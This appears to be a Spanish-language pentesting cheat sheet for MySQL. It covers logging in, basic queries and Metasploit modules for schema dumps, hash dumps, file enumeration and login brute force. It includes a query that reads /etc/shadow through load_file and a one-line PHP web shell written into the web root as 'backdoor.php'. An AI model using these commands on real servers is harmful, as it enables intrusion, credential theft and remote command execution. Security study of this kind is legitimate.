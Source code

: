 <br>

<h3 id="MySQL2">Entrando a MySQL</h3>

```bash
# Entrando a MySQL
mysql -u usuario -p contraseña -h <IP>
Ej: mysql -uroot -p 'passwd123!$' -h 192.168.1.15


# Entrando a MySQL localmente
mysql -u '<usuario>' -p '<contraseña>'
Ej: mysql -u 'root' -p 'passwd123!$'
```

<br>

<h3 id="MySQL3">Consultas Dentro de MySQL</h3>

```bash
# Consulta para ver los comandos que puedes usar
help


# Consulta para ver las bases de datos almacenadas en el servidor
show databases;


# Comando para usar una BD especifica
use <nombre_BD>;


# Consulta para ver las tablas de la BD en uso
show tables;


# Consulta para ver todos los datos almacenados en una tabla
select * from <nombre_tabla>;


# Consulta Para ver archivos del sistema usando MySQL
select load_file ("/etc/shadow");


# Creando una backdoor en MySQL para Linux
SELECT '<?php echo system($_GET["cmd"]); ?>' into DUMPFILE '/var/www/html/webtemp/backdoor.php';
```

<br>

<h3 id="MySQL4">Módulos de Metasploit para MySQL</h3>

```bash
# Módulo para obtener el esquema del servidor MySQL
auxiliary/scanner/mysql/mysql_schemadump

# Módulo para aplicar fuerza bruta en los directorios del servidor SQL para ver si podemos escribir o verlos
auxiliary/scanner/mysql/mysql_writable_dirs

# Módulo que enumera archivos y directorios usando la función load_file de MySQL
auxiliary/scanner/mysql/mysql_file_enum

# Módulo para obtener los hashes almacenados en la BD
auxiliary/scanner/mysql/mysql_hashdump

# Módulo para aplicar fuerza bruta al login de MySQL
auxiliary/scanner/mysql/mysql_login
```